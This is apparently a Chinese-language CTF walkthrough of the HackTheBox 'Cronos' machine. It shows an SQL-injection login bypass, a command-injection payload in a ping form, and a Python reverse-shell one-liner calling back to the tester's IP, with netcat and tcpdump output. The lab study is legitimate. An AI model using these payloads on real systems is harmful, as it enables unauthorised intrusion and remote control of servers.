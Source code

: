 找到一个hacktricks离关于laravel[反序列化漏洞](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/laravel)的利用技巧

需要一个APP_KEY，从github里laravel的目录可以知道.env文件在项目根目录

但是按照hacktricks里的方法我们无法得到这个env文件

等我们找到APP_KEY的时候再回来

## admin.cronos.htb

一个登陆页面，使用下面payload绕过登录
```
admin' or 1=1 -- - 
```

跑到这个页面,可以使用ping还有traceroute命令
```
http://admin.cronos.htb/welcome.php
```

使用ping命令，输入```10.10.16.4 -c 4```

本地监听收到icmp包
```
┌──(root💀kali)-[~/htb/cronos]
└─# tcpdump -i tun0 icmp                                                                                      130 ⨯
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
05:43:11.560968 IP admin.cronos.htb > 10.10.16.4: ICMP echo request, id 18306, seq 1, length 64
05:43:11.561009 IP 10.10.16.4 > admin.cronos.htb: ICMP echo reply, id 18306, seq 1, length 64
05:43:12.317547 IP admin.cronos.htb > 10.10.16.4: ICMP echo request, id 18306, seq 2, length 64
05:43:12.317571 IP 10.10.16.4 > admin.cronos.htb: ICMP echo reply, id 18306, seq 2, length 64
05:43:13.319360 IP admin.cronos.htb > 10.10.16.4: ICMP echo request, id 18306, seq 3, length 64
05:43:13.319379 IP 10.10.16.4 > admin.cronos.htb: ICMP echo reply, id 18306, seq 3, length 64
05:43:14.319754 IP admin.cronos.htb > 10.10.16.4: ICMP echo request, id 18306, seq 4, length 64
05:43:14.319769 IP 10.10.16.4 > admin.cronos.htb: ICMP echo reply, id 18306, seq 4, length 64
```

下面payload表明存在命令注入
```
8.8.8.8|id
```

使用下面payload拿到rev shell
```
8.8.8.8|python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.4",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

收到rev shell
```
┌──(root💀kali)-[~/htb/cronos]
└─# nc -lnvp 443                                                                                              130 ⨯
listening on [any] 443 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.13] 49132
$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ whoami
whoami
www-data

```
